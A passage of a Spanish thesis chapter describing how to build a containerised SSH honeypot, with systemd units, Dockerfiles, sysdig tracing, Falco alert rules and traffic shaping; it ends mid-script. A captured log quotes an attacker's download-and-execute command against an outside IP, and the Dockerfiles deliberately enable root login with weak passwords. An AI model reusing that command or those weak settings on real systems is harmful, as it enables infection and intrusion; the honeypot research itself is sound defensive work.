para \emph{containers}, tendremos que escoger una distribución del sistema operativo que nos provea de actualizaciones de seguridad. 
Se ha escogido Debian como distribución por ser la opción de referencia para servidores y mantener software testado, con actualizaciones de seguridad, 
\emph{builds} reproducibles y por ser la distribución que más conoce y prefiere el autor,
 la opción podria haber incluido \emph{CentOS, Container Linux, RHEL \ldots} o cualquier distribución con soporte. 


\subsection{Creacion del servicio expuesto}

Para la creación del servicio expuesto existen varias alternativas, uno de los objetivos de éste proyecto es la de utilizar
containers para describir nuestro servicio.

Como se explico en \ref{sec:analisis-sonda} hay diversas tecnologias de \emph{containerizacion} siendo Docker la escogida
por su madurez y conjunto de herramientas. 

\subsubsection{Elección del servicio a exponer}

La \emph{honeypot} puede albergar cualquier aplicación que se ejecute en un sistema Linux, servidores HTTP, aplicaciones
web, servidores FTP o cualquier otro tipo de servicio.

No todos los servicios tienen el mismo volumen de ataques ni el mismo interés, por ello, se escoge un servicio atractivo como SSH que 
expone el acceso a un servidor y capacita al atacante a realizar multiples tipos de ataques.

\subsubsection{Gestionando el servicio expuesto en el \emph{container}}

Para gestionar el servicio expuesto crearemos un \emph{daemon} que se encargará de monitorizar que el container esta siempre levantado, construir
la imagen y otras configuraciones. Para lanzar y mantener el estado del \emph{daemon} usaremos la funcionalidad existente en el gestor de procesos \emph{systemd}.

\emph{systemd} es un sistema de arranque diseñado para reemplazar \emph{sysinit V} y \emph{upstart} los sistemas de arranque clasicos, que ha sido adoptado
por las distribuciones principales tras generar resistencia y controversia.

    \begin{minted}[fontsize=\footnotesize]{console}
        [Unit]
        Description=Launch containers at startup
        
        [Service]
        Type=forking
        ExecStart=/usr/local/sbin/containersvc start
        ExecStop=/usr/local/sbin/containersvc stop
        Requires=docker.service
        RemainAfterExit=no
        Restart=always
        PIDFile=/var/run/containersvc.pid
        
        [Install]
        WantedBy=multi-user.target
    \end{minted}
    \captionof{listing}{Unidad de \emph{systemd} que gestiona el servicio \emph{containersvc} \label{listing:containersvc-systemd}
    }

Definiremos la unidad de \emph{systemd} (véase \cite{wiki-systemd}) listada como código \ref{listing:containersvc-systemd}, en ella se define el servicio \emph{containersvc} que requiere
que el servicio Docker este levantado (véase la directiva \emph{Requires}) y que será reiniciado siempre y cuando el servicio no exista (directiva \emph{Restart}). 
\emph{systemd} conocerá el estado del servicio monitorizando el estado del proceso cuyo \emph{PID} se almacena en la ruta descrita en la directiva \emph{PIDFile}.

El servicio básicamente lanzará un script, listado como código \ref{listing:containersvc-bash}, al que le pasara \emph{start} como argumento cuando arranque y \emph{stop}
cuando se pare.\ \\

    \begin{minted}[fontsize=\scriptsize]{console}
        #!/bin/bash
        ### BEGIN INIT INFO
        # Provides: containersvc
        # Required-Start: $local_fs $network $remote_fs
        # Required-Stop: $local_fs $network $remote_fs
        # Default-Start:  2 3 4 5
        # Default-Stop: 0 1 6
        # Short-Description: start and stop containers service
        ### END INIT INFO
        
        set -eufo pipefail
        
        DESC="container daemon"
        NAME="containersvc"
        PIDFILE="/var/run/containersvc.pid"
        touch $PIDFILE
        KPID=$(cat $PIDFILE)
        DOCKER_NETWORK="image_ssh"
        
        do_start() {
            touch $PIDFILE
            if [ -n "${KPID}" -a -d "/proc/${KPID}" ];then
              logger -t info [$NAME] $NAME already running
            else
              # cleanup unused and old docker images and volumes
              docker system prune -f
              cd /var/tmp/image
              export RANDOM_PASSWORD=$(shuf -n 1 /usr/share/dict/typical_passwords)
              export RANDOM_NAME=$(shuf -n 1 /usr/share/dict/words | tr -d "'")
              docker-compose up --build &
              echo $! > $PIDFILE
              sleep 10
              /usr/local/sbin/tc_manager.sh start $DOCKER_NETWORK
            fi
        }
        
        do_stop() {
         echo "Stopping $NAME";
         if [ -n "${KPID}" -a -d "/proc/${KPID}" ];then
             kill $KPID
             cd /var/tmp/image
             docker-compose stop
             # clearing up older iptables routes
             iptables -Z -t nat
             iptables -F -t nat
             /usr/local/sbin/tc_manager.sh stop $DOCKER_NETWORK
         fi
        }
        
        
        case "$1" in
           start)
             do_start
             ;;
           stop)
             do_stop
             ;;
           restart)
             do_stop
             do_start
             ;;
           *)
             echo "Usage: /etc/init.d/$NAME start|stop"
             exit 1
             ;;
        esac
        
        exit 0
    \end{minted}
    \captionof{listing}{Listado del servicio \emph{containersvc}      \label{listing:containersvc-bash}}

    
El script, descrito como código \ref{listing:containersvc-bash}, realizará las siguientes acciones:

\begin{enumerate}
    \item Crear el fichero donde se almacenará el PID si no existe.
    \item Limpiar viejas imagenes y volumenes antes de crear nuevos.
    \item Escoger una contraseña aleatoria como contraseña para los usuarios del servicio. Dicha
    contraseña se escoge de un listado de las 100 contraseñas más inseguras y reutilizadas, lo que aumenta
    el ratio de exito para los atacantes en la explotación y podemos aprender más.
    \item Escoger un nombre aleatorio como nombre de máquina, esto hace que el \emph{container} parezca un servicio
    más creible y que atacantes no descarten la intrusión por detectar que estan en un entorno construido para atraparles.
    \item Lanza un proceso (\emph{docker-compose}, un orquestrador de ordenes de Docker con un DSL propio) que crea la imágen del container, una red propia para ese container y lanza el container. 
    \item Lanza un proceso que limita el ancho de banda de red, se hablará más de ello en la sección \ref{subsec:securizacion-sonda}.
\end{enumerate}

la definición del \emph{docker-compose} se incluye como código \ref{listing:ssh-docker-compose}, en el fichero se puede ver que se expone el puerto
22 (puerto bien conocido para SSH), y que se le pasa el directorio actual para construir el \emph{container} y algunas variables de entorno 
creadas en el script listado como código \ref{listing:containersvc-bash}.

    \begin{minted}[fontsize=\footnotesize]{console}
        version: "2"
        services:
          ssh:
            build:
              context: . #current dir as build context
              args:
                PASSWORD_GENERATED: ${RANDOM_PASSWORD}
            image: ssh
            ports:
              - "22:22"
            container_name: ssh
            hostname: ${RANDOM_NAME}
            domainname: superprivy.com
            networks:
              - ssh
        networks:
          ssh:
            driver: bridge
    \end{minted}
    \captionof{listing}{\emph{docker-compose} que crea el container \emph{servicebase}     \label{listing:ssh-docker-compose}}

El fichero Dockerfile que define la imagen, listado como \ref{listing:Dockerfile}, recoge la variable 
\emph{PASSWORD\_GENERATED} pasada como argumento al \emph{build} y la utiliza para cambiar la contraseña
de dos usuarios del sistema. 

Como punto de entrada se levanta el servicio SSH y se deja un proceso sin fin
corriendo (\emph{sleep infinity}) que es el que utilizará docker para monitorizar el container y será proceso
número 1, como no acaba nunca, el container se ejecutará de manera continua. 

Esta imágen depende de otra, llamada \emph{servicebase}, cuya definición puede verse en código \ref{listing:Dockerfile-base}, 
esto permite que la creación de nuevos \emph{containers} sea muy rapida (aproximadamente 1 segundo), ya que 
la imágen base contiene el sistema operativo y todas las utilidades ya descargadas y preparadas.

Si se quiere actualizar o cambiar la versión o incluir alguna utilidad sólo hemos de modificar el Dockerfile
de la imagen base, cuya construcción será más lenta (del orden de minutos).

    \begin{minted}[fontsize=\footnotesize]{console}
        FROM servicebase:0.0.1
        ARG PASSWORD_GENERATED
        RUN echo "jeremy:$PASSWORD_GENERATED" | chpasswd
        RUN echo "root:$PASSWORD_GENERATED" | chpasswd
        RUN unset PASSWORD_GENERATED
        CMD /etc/init.d/ssh start && sleep infinity
        ENTRYPOINT /etc/init.d/ssh start && sleep infinity
        
    \end{minted}
    \captionof{listing}{Dockerfile para SSH \label{listing:Dockerfile}}
    


\begin{minted}[fontsize=\footnotesize]{console}
    FROM debian:latest
    RUN useradd -ms /bin/bash jeremy
    RUN apt-get update
    RUN apt-get install -y rsyslog
    RUN apt-get install -y sudo
    RUN apt-get install -y ssh
    RUN apt-get install -y vim curl wget python perl build-essential
    RUN export HOSTNAME="$(sort -R /usr/share/dict/words | head -1 | tr -d \' )"
    RUN sed -i 's/PermitRootLogin without-password/PermitRootLogin yes/g' /etc/ssh/sshd_config
    CMD /etc/init.d/ssh start && sleep infinity
    ENTRYPOINT /etc/init.d/ssh start && sleep infinity
\end{minted}
\captionof {listing}{Dockerfile base para imagen \label{listing:Dockerfile-base}}




\clearpage
\subsection{Obtencion de trazas usando sysdig}

Para obtener las trazas, lanzaremos otro \emph{daemon} encargado de levantar \emph{sysdig} y mantenerlo.
La definición de la unidad de \emph{systemd} se encuentra en el código \ref{listing:sysdig-systemd}. 

Básicamente se lanza un script llamado \emph{sysdigd} (\emph{sysdig daemon}) que se monitoriza a través
del PID almacenado en el fichero descrito en la directiva \emph{PIDFile}, y siempre que el servicio
este parado se reiniciará como describe la directiva \emph{Restart}.

    \begin{minted}[fontsize=\footnotesize]{console}
        [Unit]
        Description=Launch sysdigd as daemon
        
        [Service]
        Type=forking
        ExecStart=/usr/local/sbin/sysdigd start
        ExecStop=/usr/local/sbin/sysdigd stop
        RemainAfterExit=no
        Restart=always
        PIDFile=/var/run/sysdigd.pid
        
        [Install]
        WantedBy=multi-user.target
    \end{minted}
    \captionof{listing}{Unidad de \emph{systemd} para controlar el \emph{daemon} de \emph{sysdig}   \label{listing:sysdig-systemd}}
\bigskip

El script en si, se lista como código \ref{listing:sysdig-bash}, lo más relevante quizá
son las opciones que se pasan a \emph{sysdig}. Se hará una breve explicación de estas:
 \begin{minted}[fontsize=\footnotesize]{console}
        #!/bin/bash
        ### BEGIN INIT INFO
        # Provides: sysdigd
        # Required-Start: $local_fs $network $remote_fs
        # Required-Stop: $local_fs $network $remote_fs
        # Default-Start:  2 3 4 5
        # Default-Stop: 0 1 6
        # Short-Description: start and stop service sysdigd
        ### END INIT INFO
        
        
        DESC="sysdig daemon"
        NAME="sysdigd"
        PIDFILE="/var/run/sysdigd.pid"
        TRACES_DIR="/var/log/traces"
        KPID=$(cat $PIDFILE)
        
        do_start() {
            if [ ! -d /var/log/traces ];then
                logger -t info "creating traces directory"
                mkdir -p $TRACES_DIR &> /dev/null
        
            fi
        
            if [ -n "${KPID}" -a -d "/proc/${KPID}" ];then
                logger -t info [sysdigd] sysdig already running
            else
                logger -t info [sysdigd] launching sysdigd
                bash -c "sysdig -s 4096 -pc -F -C 200 -G 300 -W 5 -z \
                  -w /var/log/traces/$(hostname).%F-%H-%M.part > /dev/null 2>&1 &"
                sleep 5
                logger -t info [sysdigd] launched sysdigd
                PID=$(pidof sysdig)
                if [ -z "$PID" ];then
                    logger -t error [sysdigd] something went wrong, unable to launch sysdig
                    exit 2
                else
                    echo $PID > /var/run/sysdigd.pid
                fi
            fi
        }
        
        do_stop() {
         echo "Stopping $NAME";
             PID=$(pidof sysdig)
             if [ ! -z "$PID" ];then
                kill $PID
             fi
        }
        
        
        case "$1" in
           start)
             do_start
             ;;
           stop)
             do_stop
             ;;
           *)
             echo "Usage: /etc/init.d/sysdigd start|stop"
             exit 1
             ;;
        esac
        
        exit 0
    \end{minted}
    \captionof{listing}{script que controla sysdig  \label{listing:sysdig-bash}}

\begin{itemize}
    \item[\textbf{-s 4096}] Define el espacio de almacenamiento de datos, muchas \emph{syscalls} como conexiones, escritura de ficheros guardarán datos, este parametro define 
    cuantos datos guardaremos. Lo ideal para tener toda la información para su análisis sería guardar todos los datos, pero esto generaria trazas de longitud variable 
    y posiblemente de un tamaño que por su longitud sea complejo de gestionar (quizás se llenarian los discos de la sonda, se tardaría mucho tiempo en recolectar la traza o procesarla ). 
    Definimos 4KiB por ser un tamaño adecuado para captar la mayoría de datos intercambiados y de los obtenidos parcialmente quizá obtener cierto conocimiento sobre ellos. 
    \item[\textbf{-pc}] La salida incluirá información acerca de containers, como la imagen del \emph{container}.
    \item[\textbf{-F}] Incluye todos los eventos, genera trazas más grandes pero más precisas.
    \item[\textbf{-C 200}] Rotar el fichero de traza si el tamaño es superior a $200 * 10^6$ bytes.
    \item[\textbf{-G 300}] Rotar el fichero de traza si el fichero actual es más antiguo de 300 segundos.
    \item[\textbf{-W 5}] Mantener 5 ficheros de rotado. Junto a la opción \emph{-C} y \emph{G} nos aseguramos que en caso
    de recibir muchos eventos, las trazas seguiran siendo gestionables.
    \item[\textbf{-z}] Comprimir el fichero de traza.
    \item[\textbf{-w \emph{ruta}}] En que ruta se almacenan las trazas.
\end{itemize}

   

\subsubsection{Gestionar espacio de la sonda y eliminar trazas}

Pese a que nuestro objetivo es mantener todas las trazas posibles, por razones puramente fisicas,
el almacenamiento se acabará. Necesitamos algún proceso (listado como código \ref{listing:sysdig-cleanup-traces-script}) que se encargue de limpiar las trazas más antiguas, haciendo
hueco a las nuevas. Este proceso se debe lanzar con frecuencia, se ha configurado para ser lanzado cada 2 minutos en un \emph{Cronjob}.

Este proceso normalmente no hará nada, pero si el espacio del punto de montaje seleccionado es menor del 10\%, en ese caso
se preservan las trazas mas recientes (60 minutos desde que se ejecute, para dar margen al proceso de recoleccion de trazas) y se elimina el resto.

    \begin{minted}[fontsize=\footnotesize]{console}
        #!/usr/bin/env bash
        set -euo pipefail
        
        FREE_SPACE_THRESHOLD=10
        MOUNT_TO_WATCH="/"
        TRACES_DIR="/var/log/traces"
        LAST_MODIFIED_FILES_TO_KEEP_IN_MINUTES="60"
        
        
        get_free_disk_left() {
            percent=$(df -h ${MOUNT_TO_WATCH} --output=pcent | tail -1 | xargs | tr -d '%')
            FREE_SPACE=$((100-percent))
        }
        
        check_if_cleanup_is_needed () {
            if [[ $FREE_SPACE -le $FREE_SPACE_THRESHOLD ]]; then
                logger -t info "[cleanup] removing old traces"
                find $TRACES_DIR  -path "/var/log/traces/.ssh/*" -prune \
                -o -xtype f -mmin +$LAST_MODIFIED_FILES_TO_KEEP_IN_MINUTES -print0 | xargs -0 -L 50 rm
            fi
        }
        
        get_free_disk_left
        check_if_cleanup_is_needed
    \end{minted}
    \captionof{listing}{script que se lanza periodicamente para limpiar trazas. \label{listing:sysdig-cleanup-traces-script}    }
    

\subsection{Notificaciones usando falco}
\label{subsec:notificaciones-falco}

\emph{Falco} es una herramienta desarrollada por \emph{sysdig} que se encarga de monitorizar el comportamiento del sistema y notificar en 
caso de que el sistema cumpla la regla descrita.

Sirva como ejemplo la siguiente regla:

\begin{minted}[fontsize=\scriptsize]{console}
    - rule: Run shell in container
    desc: a shell was spawned by a non-shell program in a container. Container entrypoints are excluded.
    condition: in_potted_container and spawned_process and container and shell_procs and proc.pname exists 
               and not proc.pname in (shell_binaries, docker_binaries, 
               k8s_binaries, initdb, pg_ctl, awk, apache2, falco, cron)
    output: "Shell spawned in a container other than entrypoint 
             (user=%user.name %container.info %container.info 
              shell=%proc.name parent=%proc.pname cmdline=%proc.cmdline)"
    priority: ALERT
\end{minted}
\captionof{listing}{Extracto de reglas de \emph{Falco}. \label{listing:extracto-falco}}
\bigskip

En ella se describe el titulo de la regla \emph{Run shell in a container}, una descripción de la regla y una condición que disparará la regla.
Si en un \emph{container } monitorizado se crea un proceso que no sea una shell, el binario de docker o algunas herramientas conocidas
la condición se cumple y se dispara una notificación con la prioridad descrita (ALERTA).

Esta regla nos sirve para identificar cuando nuestra \emph{honeypot} de SSH ha sido vulnerada. Esta regla es un ejemplo de muchas
que ya vienen en el paquete de reglas base de \emph{Falco}. 

Para éste proyecto se han realizado las siguientes modificaciones al conjunto de reglas base:

\begin{itemize}
    \item Identificar que reglas  marcan claramente que la \emph{honeypot} ha sido vulnerada
    y cambiar su prioridad al nivel maximo de ALERTA.
    \item Modificar las macros y las reglas para escuchar eventos únicamente de los containers que exponen servicios vulnerables.
\end{itemize}

Con estos cambios, \emph{Falco} se encarga de notificarnos cuando alguna de las condiciones descritas en estas reglas se cumplen.
Lo siguiente a realizar será actuar en base a estas notificaciones. En concreto necesitaremos las siguientes actuaciones:

\begin{enumerate}
    \item Registraremos las alertas en un fichero de log, que posteriormente sera recolectado por el recolector vía \emph{rsyslog}.
    \item Necesitamos que una vez detectada la intrusión, permitir al atacante actuar durante algún tiempo para obtener trazas, pero
    pasado este tiempo se ha de parar el container, borrarlo y crear uno nuevo desde una imagen limpia.
\end{enumerate}

Para la primera accion tenemos todas las herramientas necesarias, sólo utilizando \emph{rsyslog} conseguimos el objetivo (véase \ref{subsubsec:usando-rsyslog}).
La segunda acción, sin embargo, es más compleja y necesitaremos algún proceso que se encargue de por un lado escuchar las notificaciones de falco y 
actuar en consecuencia, parando el container en ejecución tras pasar el tiempo de exposición. 

\subsection{Gestor de containers comprometidos en la sonda}


Para implementarlo, se crea una aplicación en \emph{Go} que realice estas funciones. Las razones para escoger \emph{Go} como lenguaje son:

\begin{enumerate}
    \item Soporta la concurrencia de una manera muy elegante y facil a través de \emph{gorutinas} y canales.
    \item El compilador genera un binario estatico que no requiere dependencias, en un entorno de seguridad como éste proyecto esto
    tiene un gran valor ya que al no depender de bibliotecas dinamicas del sistema reducimos la superficie de ataque.
    \item El hecho de que genere un unico binario facilita la distribución e instalación de la aplicación que se reduce a copiar el fichero binario y darle permisos de ejecución.
\end{enumerate}

En el anexo \ref{subsec:containe-recycler-src-code} se listan algunos trozos de código de la aplicación. El encargado de lanzar el proceso será el propio
\emph{Falco}, como puede verse en el siguiente extracto de configuración:

\begin{minted}[fontsize=\scriptsize]{console}
    program_output:
    enabled: true
    program: "/usr/local/bin/container_recycler | tee -a /var/log/falco_alerts.txt"
\end{minted}
\captionof{listing}{Extracto de configuración de \emph{Falco}. \label{listing:config-falco}}
\bigskip


Cuando se recibe una notificación de tipo ALERT, el proceso deja el container vivo durante algún tiempo (10 minutos) y tras ese tiempo
mata el container.

El servicio de \emph{containersvc}, descrito anteriormente (véase código \ref{listing:containersvc-bash}), detectará que el proceso ha sido matado
y creará un nuevo container.

\begin{minted}[fontsize=\tiny]{console}
    time="2017-08-29T21:55:59Z" level=debug msg="ParseFalcoNotifications: received a falco notification" 
    time="2017-08-29T21:55:59Z" level=info msg="{21:55:58.886876283: Alert Shell spawned in a container other than entrypoint 
    (user=root ssh (id=fecb65acaf55) ssh (id=fecb65acaf55) shell=bash parent=sshd cmdline=bash -c #!/bin/sh
    PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    wget http://155.94.161.92/ys808e
    curl -O http://155.94.161.92/ys808e
    chmod +x ys808e
    ./ys808e
    ) Alert Run shell in container 2017-08-29 21:55:58.886876283 +0000 UTC}" 
    time="2017-08-29T21:55:59Z" level=debug msg="map[user:root image_name:ssh image_id:fecb65acaf55]" 
    time="2017-08-29T21:55:59Z" level=debug msg="Alert received, will try to stop container" 
    time="2017-08-29T21:55:59Z" level=debug msg="incomparable ID, provided ID is larger than existing one 
    time="2017-08-29T21:55:59Z" level=debug msg="FalcoNotification.handle: stopping container" 
    time="2017-08-29T21:55:59Z" level=info msg="scheduled container ssh for stopping" 
    time="2017-08-29T21:55:59Z" level=debug msg="ScheduleContainerStop: outside the lambda function waiting for DONE signal" 
    time="2017-08-29T22:05:59Z" level=info msg="Stopping container ssh NOW!" 
    time="2017-08-29T22:06:09Z" level=info msg="container ssh has been stopped" 
    time="2017-08-29T22:06:09Z" level=debug msg="ScheduleContainerStop: Lambda function DONE"     
\end{minted}
\captionof{listing}{Extracto de log de \emph{container\_recycler}. \label{listing:container-recycler}}
\bigskip

\subsection{Securizacion de la sonda}
\label{subsec:securizacion-sonda}
Hay diversas medidas de seguridad a aplicar en la sonda. Si seguimos el principio de defensa en profundidad \cite{wikipedia-defense-in-depth}, aplicaremos diversas capas de proteccion en diferentes sistemas.

\subsubsection{Securizacion del sistema operativo}

En nuestro caso al escoger \emph{Debian} podremos utilizar capacidades como el sistema de \emph{unattended-upgrades} para actualizar paquetes del sistema cuando 
se publiquen actualizaciones de seguridad. 

Es recomendable seguir los estandares de la industria, como las guias de securización del \emph{CIS} o del 
\emph{NIST} (véase \cite{ovh-debian-cis} como ejemplo aplicado), que proporcionan guias de securizacion
para la mayoria de distribuciones y que son utilizadas para el cumplimiento de legislación para poder
gestionar datos sensibles como tarjeta de credito (PCI-DSS) (véase \cite{wiki-pci-dss}). 

\subsection{Reducción de la superficie de ataque}

Para ello debemos eliminar servicios innecesarios de nuestro sistema, y limitar el acceso a la red configurando un cortafuegos, que permita
el acceso sólo a los puertos que nosotros deseamos desde los origenes que deseamos.

\begin{minted}[fontsize=\scriptsize]{console}
    # {{ansible_managed}}
    iptables -P INPUT DROP
    iptables -P FORWARD ACCEPT
    iptables -P OUTPUT ACCEPT
    # las conexiones establecidas se mantienen.
    iptables -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
    iptables -A INPUT -i lo -j ACCEPT
    iptables -A INPUT -p icmp -j ACCEPT
    #servicio expuesto
    iptables -A INPUT -p tcp -m state --state NEW -m tcp --dport 22 -j ACCEPT
    #ssh de gestion
    iptables -A INPUT -p tcp -m state --state NEW -m tcp --dport 30009 -j ACCEPT
    
     
      iptables -A OUTPUT -p tcp -m state --state NEW -m tcp -o docker0 -d {{ ip }}/32 --dport 38080 -j REJECT
     
    
    
    iptables -A INPUT -j REJECT --reject-with icmp-net-unreachable 
    iptables -A FORWARD -j REJECT --reject-with icmp-net-unreachable     
    # Set up default policies
    
    ip6tables -P INPUT DROP
    ip6tables -P FORWARD DROP
    # we allow ipv6 output for updates
    ip6tables -P OUTPUT ACCEPT
    
    # Allow localhost traffic. This rule is for all protocols.
    
    ip6tables -A INPUT -s ::1 -d ::1 -j ACCEPT
\end{minted}
\captionof{listing}{Reglas de cortafuegos para sonda. \label{listing:cortafuegos-sonda}}
\bigskip

\subsection{Configuración del SSH de gestión}

Nuestra sonda expone el puerto tradicional de SSH para que sea atacado, pero aun se necesita conectarse via SSH para configurar el servidor,
instalar paquetes, etc.

Utilizamos \href{https://github.com/dev-sec/ansible-ssh-hardening}{un modulo de Ansible} para securizar el servicio SSH. 
Dicho modulo se encarga de:

\begin{itemize}
    \item Configurar el servicio para levantarse en otro puerto, en nuestro caso el 30009. 
    La seguridad por oscuridad no aporta valor añadido pero reduce el número de ataques que recibimos. 
    \item Deshabilita el uso de agentes SSH.
    \item Deshabilita el inicio de sesion para root.
    \item Deshabilita el reenvio de tráfico a traves de tuneles TCP.
    \item Deshabilita SFTP como servicio de transferencia, ya que puede ser usado para explorar el sistema de archivos del servidor.
    \item Configura SSH para no usar algoritmos de cifrado debiles. 
\end{itemize}

\subsection{Securizacion del sistema de containers}

Las opciones de securización vienen condicionadas por haber escogido \emph{Docker} como sistema ejecución de containers
y \emph{Debian} como sistema operativo. 

En Linux podemos usar varios modulos del kernel que implementan un sistema \emph{MAC (Mandatory Access Control)} en lugar de \emph{DAC (Discretionary Access Control)}. 
Basicamente si el acceso es de tipo DAC, como el tradicional en sistemas unix, la capacidad o no de realizar una acción viene determinado por el actor que inicia la acción y las comprobaciones
para saber si puede ejercer la accion el objeto sobre el que actua se limitan a comprobar que sea dueño del mismo o el grupo al que pertenece el actor lo sea.

En un sistema \emph{MAC}, las politicas de que está permitido o no involucran a los actores que inician la acción y los objetos sobre los que estos actuan, pudiendo
limitar incluso al dueño del objeto a realizar ciertas acciones.

De los sistemas que implementan un control tipo MAC en linux, podemos enumerar las principales alternativas:

\begin{itemize}
    \item[\emph{SELinux}] desarrollado por la \emph{NSA} pero mantenido principalmente por \emph{Redhat}, aunque esta integrado como modulo de kernel,
    las herramientas y politicas solo se desarrollan y mantiene para distribuciones tipo \emph{Redhat} como \emph{RHEL,Fedora o CentOS} y derivadas de estas.
    El soporte de \emph{Debian} para \emph{SELinux} aunque existe no esta mantenido oficialmente, lo que hace inviable ésta opción. En SELinux los objetos (ficheros, conexiones de red) se identifican por
    un identificador que es invariable aunque la ruta al fichero cambie. 
    \item[\emph{AppArmor}] desarrollado principalmente por \emph{SuSE Linux} y \emph{Canonical}, está integrado en el kernel pero al igual que \emph{SELinux} 
    el soporte de herramientas y politicas existe principalmente en distribuciones \emph{SuSE}, \emph{Ubuntu} y \emph{Debian}. En AppArmor las politicas hacen referencia a rutas y no 
    a identificadores de fichero, lo que es una merma en las capacidades de securizar de \emph{AppArmor}.
    \item[\emph{TOMOYO}] Desarrollado por \emph{NTT Group}, parece que su uso y comunidad es muy pequeña comparado con las alternativas y que no está activamente mantenido. Similar a \emph{AppArmor} en filosofía.
    \item[\emph{grsecurity}] Es un conjunto de parches para el kernel desarrollado por Brad Spengler de \emph{Open Source Security, inc} hasta septiembre de 2015 se ofrecian parches al publico de versiones estables y de pruebas del kernel. 
    Despues de septiembre de 2015, sólo se ofrecian parches para versiones de prueba al público en general y para versiones estables para suscriptores de pago. En abril de 2017 también cerraron la descarga de parches
    para versiones de prueba. grsecurity ofrece el conjunto de parches y herramientas más completa y controvertida de las opciones a escoger. Instalar los parches de grsecurity en un kernel
    no garantizan compatibilidad con aplicaciones existentes, sin embargo su control \emph{MAC} basado en roles y el conjunto de mejoras de seguridad al kernel, la convierten en una opción atractiva de no ser por su modelo de distribución y sus problemas de compatibilidad.
\end{itemize}

Como resultado, escogeremos \emph{AppArmor} \cite{wiki-apparmor} para implementar nuestras politicas \emph{MAC}. \emph{Docker} soporta ser lanzado con perfiles de \emph{AppArmor} \cite{docker-doc-apparmor}, que permiten
limitar el conjunto de acciones que las aplicaciones podran realizar \textbf{dentro} del container. Existiran otros perfiles de \emph{AppArmor} que permiten limitar el comportamiento
de Docker con el sistema que aloja \emph{containers}.
\ \\
\emph{Seccomp} \cite{wiki-seccomp} es una capacidad del kernel, que permite a procesos descartar privilegios de acceso a \emph{syscalls} 
que no necesitan. En el contexto de limitación de \emph{containers}, \emph{AppArmor} da un control más granular sobre que se permite 
o no ejecutar a un container mientras que seccomp complementa 
la proteccion para acciones que no tengan sentido para ese container.

\ \\
Por ejemplo, podemos restringir la syscall \emph{sethostname} para un \emph{container} 
que ejecute un servidor web que dificilmente necesitará realizar esa operación.

\subsubsection{Limitación del ancho de banda usado por procesos que se ejecutan en \emph{containers}}

Cuando creamos el \emph{container} con el servicio expuesto, creamos una red propia para este \emph{container}. Puede verse
en el listado del código \ref{listing:ssh-docker-compose} en el apartado \emph{networks}.
Docker crea un dispositivo de red virtual al que asocia un dispositivo \emph{bridge} virtual, esto es necesario para que el 
\emph{container} tenga un \emph{namespace} \cite{wiki-namespaces} de red propio. Por defecto, a no ser que configuremos \emph{Docker}
de otra manera, se crearan reglas en \emph{iptables} para que este \emph{bridge} pueda salir a internet, y de esta manera los 
\emph{containers} que utilicen esta red tengan conexión a internet.
Esto es conveniente, los \emph{containers} suelen necesitar acceso a la red, especialmente si son servicios expuestos a clientes, pero en el caso de la \emph{honeypot} pese a que deseamos que el atacante tenga
conexión a internet (muchos scripts de atacantes si detectan que no hay conexión a internet, simplemente no hacen nada porque sospechan 
de estar en una \emph{honeypot}), no queremos colaborar de manera activa con el ataque que se este llevando a cabo.
La solución a esta aparente contradicción, es permitir el acceso a internet pero limitando la velocidad de la conexión a una tan baja que un ataque
de tipo \emph{DDoS}.

Para ello utilizaremos una herramienta llamada \emph{traffic control (tc)} (véase \cite{man-tc}) que nos permite manipular la gestión de trafico del kernel
para nuestros dispositivos de red.

Como puede verse en el script listado como código \ref{listing:tc-manager-script}, que se lanza desde el \emph{daemon} de gestión de containers (código \ref{listing:containersvc-bash})
con la red de docker del \emph{container} como argumento. La primera función del script que gestiona \emph{tc} es a partir del
nombre de red de Docker, averiguar a que dispositivo \emph{bridge} pertenece y modificar las politicas de tráfico de dicho \emph{bridge}.

Respecto a las politicas de tráfico en concreto, reducimos el ancho de banda de descarga y subida a 56KiB y añadimos una latencia
de 50ms a la red. 

Se crean clases de tráfico, donde el tráfico SSH y el tráfico de diagnosis (ICMP) se marca como prioritario (priorizamos la conexión del servicio expuesto),
el resto del tráfico se entregará con el ancho de banda disponible.


\begin{minted}[fontsize=\scriptsize]{console}
    #!/bin/bash -x
    
    clean_rules() {
        local iface=$1
        tc qdisc del dev $iface root    2> /dev/null > /dev/null
        tc qdisc del dev $iface ingress 2> /dev/null > /dev/null
    }
    
    start_traffic_shape(){
        local iface="$1"
        local maxbwidth_download="${2:-56}"
        local maxbwidth_upload="${3:-56}"
        local latency_added="${4:-50ms}"
        local burst_allowed="${5:-1540}"
    
        # clean existing down- and uplink qdiscs, hide errors
        tc qdisc del dev $iface root    2> /dev/null > /dev/null
        tc qdisc del dev $iface ingress 2> /dev/null > /dev/null
    
        ###### uplink
    
        # install root HTB, point default traffic to 1:20:
    
        tc qdisc add dev $iface root handle 1: htb default 20
    
        # shape everything at $UPLINK speed - this prevents huge queues in your
        # DSL modem which destroy latency:
    
        tc class add dev $iface parent 1: classid 1:1 htb rate ${maxbwidth_upload}kbit burst 6k
    
        # high prio class 1:10:
    
        tc class add dev $iface parent 1:1 classid 1:10 htb rate ${maxbwidth_upload}kbit \
        burst 6k prio 1
    
        # bulk & default class 1:20 - gets slightly less traffic,
        # and a lower priority:
    
        tc class add dev $iface parent 1:1 classid 1:20 htb rate $[9*$maxbwidth_upload/10]kbit \
        burst 6k prio 2
    
        # both get Stochastic Fairness:
        tc qdisc add dev $iface parent 1:10 handle 10: sfq perturb 10
        tc qdisc add dev $iface parent 1:20 handle 20: sfq perturb 10
    
        # TOS Minimum Delay (ssh, NOT scp) in 1:10:
        tc filter add dev $iface parent 1:0 protocol ip prio 10 u32 \
        match ip tos 0x10 0xff  flowid 1:10
    
        # ICMP (ip protocol 1) in the interactive class 1:10 so we
        # can do measurements & impress our friends:
        tc filter add dev $iface parent 1:0 protocol ip prio 10 u32 \
        match ip protocol 1 0xff flowid 1:10
    
        # To speed up downloads while an upload is going on, put ACK packets in
        # the interactive class:
    
        tc filter add dev $iface parent 1: protocol ip prio 10 u32 \
        match ip protocol 6 0xff \
        match u8 0x05 0x0f at 0 \
        match u16 0x0000 0xffc0 at 2 \
        match u8 0x10 0xff at 33 \
        flowid 1:10
    
        # rest is 'non-interactive' ie 'bulk' and ends up in 1:20
    
    
        ########## downlink #############
        # slow downloads down to somewhat less than the real speed  to prevent
        # queuing at our ISP. Tune to see how high you can set it.
        # ISPs tend to have *huge* queues to make sure big downloads are fast
        #
        # attach ingress policer:
    
        tc qdisc add dev $iface handle ffff: ingress
